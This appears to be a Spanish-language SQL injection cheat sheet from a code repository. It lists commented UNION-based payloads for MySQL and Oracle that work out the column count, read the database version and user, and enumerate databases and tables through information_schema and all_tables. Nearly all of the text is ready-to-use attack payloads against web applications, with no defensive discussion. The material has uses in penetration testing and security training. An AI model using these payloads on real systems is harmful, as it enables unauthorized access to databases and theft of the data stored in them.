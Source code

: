 ## Para saber el numero de columnas

```bash
# MYSQL

❯ union select 1,2,3 --+                              # Determinar el numero de columnas 
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
❯ ' union select NULL,NULL,NULL -- -                  # Aveces solo acepta NULL en lugar de numeros
❯ ' union select "test",NULL,NULL -- -                # Podemos colocar texto 
❯ ' union select database(),NULL,user() -- -          # Queremos que muestre el nombre de la base de datos actual en uso, tambien podemos ver al usuario quien corre la base de datos

❯ ' union select NULL,@@version-- -                   # Mirar la version de MySQL y Microsoft
```

```bash 
# ORACLE

❯ ' union select NULL,NULL from dual-- -              # Dual es una tabla existente en Oracle
❯ ' union select NULL,banner from v$version-- -       # Mirar la version en Oracle
```

### Para saber las bases de datos (DB) existentes

```bash 
# MYSQL

❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
❯ ' union select schema_name from information_schema.schemata limit 0,1-- -          # Nos muestra la primer base de datos existente, la cual podemos ir variando, limitando a 1 resultado, el que varia es el '0' a 1,2,3, etc...
❯ ' union select group_concat(schema_name) from information_schema.schemata-- -      # Nos muestra todas las bases de datos existentes en una linea, pero separadas por comas
```

### Para saber las tablas de la base de datos (DB) especifica

```bash
# MYSQL

❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes
❯ ' union select group_concat(table_name) from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes, pero separadas por comas
❯ ' union select table_name from information_schema.tables limit 0,1-- -   # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

```bash 
# ORACLE

❯ ' union select table_name from all_tables-- -              # Nos muestra las tablas en Oracle
❯ ' union select owner from all_tables-- -                   # Nos muestra las tablas en Oracle de los propietarios
❯ ' union select table_name from all_tables where owner='❮owner_Name❯'-- -
```
